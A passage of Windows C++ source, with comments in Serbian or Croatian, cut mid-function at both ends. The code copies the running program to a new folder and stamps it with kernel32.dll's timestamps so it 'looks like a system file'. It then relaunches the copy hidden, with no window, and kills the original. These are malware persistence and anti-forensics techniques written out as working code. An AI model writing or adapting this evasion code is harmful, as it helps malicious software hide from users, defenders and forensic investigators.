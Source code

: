         // 3. Kreiranje direktorijuma ako ne postoji
        CreateDirectoryA(newPath, NULL);

        // 4. Kopiiranje fajla na novu lokaciju
        if (!CopyFileA(currentPath, newFullPath.c_str(), FALSE)) {
            // Ako fajl već postoji i zaključan je, to je takođe znak da je proces aktivan
            if (GetLastError() == ERROR_SHARING_VIOLATION) {
                return true;
            }
            return false;
        }

        // 5. "Stomp" vremenskih oznaka da izgleda kao sistemski fajl
        TimeStampStomp(newFullPath.c_str(), "C:\\Windows\\System32\\kernel32.dll");

        // 6. Pokretanje novog procesa sa nove lokacije
        STARTUPINFOA si = { sizeof(si) };
        PROCESS_INFORMATION pi;
        if (!CreateProcessA(newFullPath.c_str(), NULL, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, newPath, &si, &pi)) {
            return false;
        }

        // 7. Zatvaranje handle-ova i gašenje starog procesa
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        
        // Gašenje originalnog procesa
        exit(0);

        return true; // Tehnički, nikada nećemo doći do ovde
    }

    bool TimeStampStomp(const char* targetFile, const char* sourceFile) {
        HANDLE hSource = CreateFileA(sourceFile, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
        if (hSource == INVALID_HANDLE_VALUE) {
            return false;
        }

        HANDLE hTarget = CreateFileA(targetFile, GENERIC_WRITE, FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
        if (hTarget == INVALID_HANDLE_VALUE) {
            CloseHandle(hSource);
            return false;
        }

        FILETIME ftCreate, ftAccess, ftWrite;
        if (!GetFileTime(hSource, &ftCreate, &ftAccess, &ftWrite)) {
            CloseHandle(hSource);
            CloseHandle(hTarget);
            return false;
        }

        if (!SetFileTime(hTarget, &ftCreate, &ftAccess, &ftWrite)) {
            CloseHandle(hSource);
            CloseHandle(hTarget);
            return false;
        }
